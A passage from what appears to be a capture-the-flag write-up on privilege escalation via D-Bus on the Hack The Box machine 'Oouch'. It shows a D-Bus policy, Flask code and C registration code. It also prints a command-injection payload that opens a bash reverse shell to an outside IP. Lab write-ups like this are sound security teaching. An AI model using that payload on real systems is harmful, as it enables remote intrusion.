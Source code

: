 ```xml
<?xml version="1.0" encoding="UTF-8"?> <!-- -*- XML -*- -->

<!DOCTYPE busconfig PUBLIC
 "-//freedesktop//DTD D-BUS Bus Configuration 1.0//EN"
 "http://www.freedesktop.org/standards/dbus/1.0/busconfig.dtd">

<busconfig>

    <policy user="root">
        <allow own="htb.oouch.Block"/>
    </policy>

	<policy user="www-data">
		<allow send_destination="htb.oouch.Block"/>
		<allow receive_sender="htb.oouch.Block"/>
	</policy>

</busconfig>
```

Note from the previous configuration that **you will need to be the user `root` or `www-data` to send and receive information** via this D-BUS communication.

As user **qtc** inside the docker container **aeb4525789d8** you can find some dbus related code in the file _/code/oouch/routes.py._ This is the interesting code:

```python
if primitive_xss.search(form.textfield.data):
        bus = dbus.SystemBus()
        block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
        block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

        client_ip = request.environ.get('REMOTE_ADDR', request.remote_addr)
        response = block_iface.Block(client_ip)
        bus.close()
        return render_template('hacker.html', title='Hacker')
```

As you can see, it is **connecting to a D-Bus interface** and sending to the **"Block" function** the "client_ip".

In the other side of the D-Bus connection there is some C compiled binary running. This code is **listening** in the D-Bus connection **for IP address and is calling iptables via `system` function** to block the given IP address.\
**The call to `system` is vulnerable on purpose to command injection**, so a payload like the following one will create a reverse shell: `;bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #`

### Exploit it

At the end of this page you can find the **complete C code of the D-Bus application**. Inside of it you can find between the lines 91-97 **how the `D-Bus object path`** **and `interface name`** are **registered**. This information will be necessary to send information to the D-Bus connection:

```c
        /* Install the object */
        r = sd_bus_add_object_vtable(bus,
                                     &slot,
                                     "/htb/oouch/Block",  /* interface */
                                     "htb.oouch.Block",   /* service object */
                                     block_vtable,
                                     NULL);
```

